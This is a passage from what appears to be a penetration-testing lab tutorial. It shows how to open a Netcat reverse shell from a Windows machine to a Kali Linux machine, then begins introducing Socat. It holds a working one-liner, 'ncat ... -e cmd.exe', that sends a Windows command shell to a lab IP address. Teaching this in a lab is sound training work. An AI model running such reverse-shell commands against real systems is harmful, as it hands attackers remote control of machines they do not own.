 On the Windows machine, we will use Netcat to connect to the Kali Linux machine and send the command shell to the Kali Linux machine through TCP port 1308.

```powershell
ncat -nv 192.168.190.133 1308 -e cmd.exe
```

![](./img/Chapter4/16.png)

![](./img/Chapter4/17.png)

Once the connection is established, the Windows will have redirected `cmd.exe` input, output, and
error data streams to the Kali Linux machine on port 1308.

## **2. Socat**

**About Socat:** Socat is a command line based utility that establishes two bidirectional byte streams and transfers data between them. 

### **2.1. Netcat vs Socat**
